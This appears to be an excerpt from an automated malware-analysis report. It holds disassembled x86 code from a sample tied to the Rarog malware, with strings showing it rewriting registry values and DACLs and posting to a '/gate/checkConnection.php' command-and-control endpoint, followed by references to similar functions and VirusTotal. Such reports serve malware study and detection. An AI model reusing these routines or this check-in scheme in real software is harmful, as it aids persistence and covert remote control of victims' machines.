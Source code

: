 lea ecx,[ebp-0x188]
call fcn.00401cd0
push ebx
push esi
lea ecx,[ebp-0x1dc]
call fcn.00401cd0
push ebx
push esi
lea ecx,[ebp-0x1c0]
call fcn.00401cd0
push ebx
push esi
lea ecx,[ebp-0x214]
call fcn.00401cd0
push ebx
call dword[sym.imp.KERNEL32.dll_ExitProcess]
call fcn.00409a55
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x480],esp
push 0xf
pop esi
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Rarog___Rewriting_registry_value
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
call dword[sym.imp.KERNEL32.dll_GetCurrentProcessId]
push eax
call fcn.0040a24f
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x480],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.Rarog___Rewriting_DACL
mov byte[ecx],bl
call fcn.00401caf
call fcn.0040284c
sub esp,0x1c
mov ecx,esp
mov dword[ebp-0x480],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str.POST
mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov byte[ebp-4],0xf
mov ecx,esp
mov dword[ebp-0x494],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push 0x4282a0
mov byte[ecx],bl
call fcn.00401caf
sub esp,0x1c
mov byte[ebp-4],0x10
mov ecx,esp
mov dword[ebp-0x498],esp
mov dword[ecx+0x14],esi
mov dword[ecx+0x10],ebx
push str._gate_checkConnection.php

[similar_1_ref]: /report/fcn.0041e847@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_2_ref]: /report/fcn.0040becc@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_3_ref]: /report/fcn.1000a104@a0ac129ff3ea4c0dfa9529c259a9502c
[similar_4_ref]: /report/fcn.004183a4@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.00406b6f@69b3c79878674ea715338a112bb5caa6
[virustotal_ref]: https://www.virustotal.com/gui/file/69b3c79878674ea715338a112bb5caa6